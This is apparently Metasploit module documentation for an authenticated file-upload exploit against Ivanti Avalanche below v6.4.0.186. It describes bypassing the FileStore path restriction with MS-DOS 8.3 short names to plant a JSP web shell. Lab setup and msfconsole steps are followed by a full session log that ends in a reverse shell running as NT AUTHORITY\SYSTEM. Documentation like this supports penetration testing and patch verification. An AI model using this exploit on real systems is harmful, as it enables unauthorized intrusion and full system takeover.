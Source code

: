 ## Vulnerable Application

For versions of Ivanti Avalanche below `v6.4.0.186`, an authenticated administrator
can change the default path for the Central FileStore. While the default path
is set to `C:\Program Files\Wavelink\Avalanche\EnterpriseServer\centralfilestore\files`,
Ivanti Avalanche restricts the path from being set to folders within the `Windows` and
`Program Files` directories. These restrictions do not account for MS-DOS (8.3) path
names, so this naming convention can be used to set the Central FileStore path to
the web root of the application. This module leverages the vulnerability to
upload a JSP web shell and gain RCE as `NT AUTHORITY\SYSTEM`.

### Installation Instructions

The software requires a version of MSSQL server to be installed. The installation
instructions use MSSQL Server 2012, but 2017 worked for my setup. Ensure that
`SQL Server and Windows Authentication Mode` are selected as the default for
server authentication. That can either be done at installation or via
SQL Server Management Studio.

1. Open SQL Server Management Studio and connect to the instance
2. Right click on the instance and select `Properties`
3. Click the `Security` page
4. Underneath `Server Authentication`, select `SQL Server and Windows Authentication Mode` and `Ok`

Instructions for installing Ivanti Avalanche can be found [here](https://forums.ivanti.com/s/article/Best-Known-Method-for-installing-Avalanche-6-x-using-MSSQL-Server-2008-R2-Express-DB-or-2012-Express-Advanced?language=en_US)

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/http/ivanti_avalanche_filestoreconfig_upload`
4. Do: `set USERNAME <uname>`
5. Do: `set PASSWORD <pass>`
6. Do: `set RHOST <ip>`
7. Do: `run`
8. You should get a shell as NT AUTHORITY\SYSTEM.

## Options

### USERNAME

An admin user with which to log into the software

### PASSWORD

Password belonging to admin user

## Scenarios

### Ivanti Avalanche v6.3.4.153 - Windows 10 x64

```
msf6 > use exploit/windows/http/ivanti_avalanche_filestoreconfig_upload
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > set rhost 192.168.140.150
rhost => 192.168.140.150
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > options

Module options (exploit/windows/http/ivanti_avalanche_filestoreconfig_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Password to log in with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.140.150  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics
                                         /using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /AvalancheWeb    yes       The URI of the Example Application
   USERNAME   amcadmin         yes       User name to log in with
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.140.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Original FileStore config path: 'C:\Program Files\Wavelink\Avalanche\EnterpriseServer\centralfilestore\files'
[*] Changing FileStore config path to 'C:\PROGRA~1\Wavelink\AVALAN~1\Web'
[+] Successfully uploaded 'LWRrxDXWxhbz.jsp'
[*] Attempting to restore config path
[!] Tried to delete webapps/LWRrxDXWxhbz.jsp, unknown result
[*] Command shell session 1 opened (192.168.140.1:4444 -> 192.168.140.150:50249) at 2023-05-08 14:27:58 -0500
[!] Failed to restore the FileStore config path to its original path. Please manually restore it.
[+] Successfully restored the FileStore config path


Shell Banner:
Microsoft Windows [Version 10.0.19041.630]
-----


C:\Program Files\Wavelink\Avalanche\Web>
C:\Program Files\Wavelink\Avalanche\Web>
C:\Program Files\Wavelink\Avalanche\Web>whoami
whoami
nt authority\system

C:\Program Files\Wavelink\Avalanche\Web>^C
Abort session 1? [y/N]  y

[*] 192.168.140.150 - Command shell session 1 closed.  Reason: User exit
```
